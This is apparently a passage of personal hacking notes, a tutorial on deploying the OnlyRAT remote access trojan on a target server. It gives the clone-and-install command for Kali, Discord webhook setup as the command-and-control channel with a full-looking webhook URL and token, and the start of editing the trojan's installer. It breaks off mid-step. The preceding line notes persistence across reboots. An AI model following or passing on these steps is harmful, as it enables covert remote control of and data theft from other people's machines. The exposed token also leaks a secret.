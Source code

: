 From now on even if the PC reboots the session will be created. 







# SETTING UP AND DEPLOYING A RAT

Lets do something really fun, and set up a RAT on one of the servers. In this tutorial, we will be using [OnlyRAT](https://github.com/CosmodiumCS/MK01-OnlyRAT), developed by **CosmodiumCS** and hosted on GitHub, is a comprehensive tool designed for remote command and control of Windows computers. 

Once installed, it grants remote administrative access to the targeted system. This access is facilitated through a **Python** console on the attacker's PC, enabling a wide range of operations and payloads to be executed remotely

> A video of how to set this up can be found here: - [Link](https://youtu.be/jMmLx3Cwy2I)

![[Pasted image 20231114220422.png|500]]

On a **Kali Linux** Machine 

```bash
git clone https://github.com/CosmodiumCS/MK01-OnlyRAT.git ; cd MK01-OnlyRAT/ ; bash install.sh
```
> This will download the repo onto your system then changed directory into it and install it

After the RAT has installed it will delete the install folder. you can run the script by: - 
```bash
onlyrat
```

now to begin we first need to make a discord server, create a text channel in it called OnlyRAT

![[Pasted image 20231114232903.png|300]]

- right click the channel and click **edit channel**

![[Pasted image 20231114233004.png]]

- click the **integration** tab and then click on **Webhooks**

![[Pasted image 20231114233055.png]]
- create a new **Webhook**
- name it onlyRAT
- Copy Webhook URL

```
https://discord.com/api/webhooks/1174129539874570380/5k-zTZdznoGbZVWVMRLgzzbGJjnUXOT8Vok3n9CRwMATCTCBw_IhS3Hb2Dzbu3PtkbSL
```
> Webhook will look something like this. 

go back to the OnlyRAT repo, and click installers, when you are in their download the one that says **from-github.cmd**

open from-github.cmd file

![[Pasted image 20231114233946.png]]
> Where is says 





